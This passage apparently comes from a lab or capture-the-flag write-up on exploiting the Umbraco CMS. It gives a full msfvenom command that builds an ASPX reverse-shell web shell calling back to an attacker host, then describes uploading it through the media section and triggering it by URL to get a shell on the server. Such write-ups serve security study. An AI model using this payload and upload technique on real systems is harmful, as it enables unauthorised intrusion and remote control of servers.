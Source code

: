 In short: **if you can log in, you can upload a web shell**.

---

## ⚙️ Exploitation via ASPX Shell Upload

We created a simple ASPX web shell payload using **MSFVenom**:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.30 LPORT=4444 -f aspx -o shell.aspx
```

We uploaded the file through the media section of Umbraco and triggered it via the browser:

```
http://10.129.7.150/media/shell.aspx
```

![Reverse Shell](images/image4.png)

A reverse shell was established as **iis apppool\defaultapppool**.

---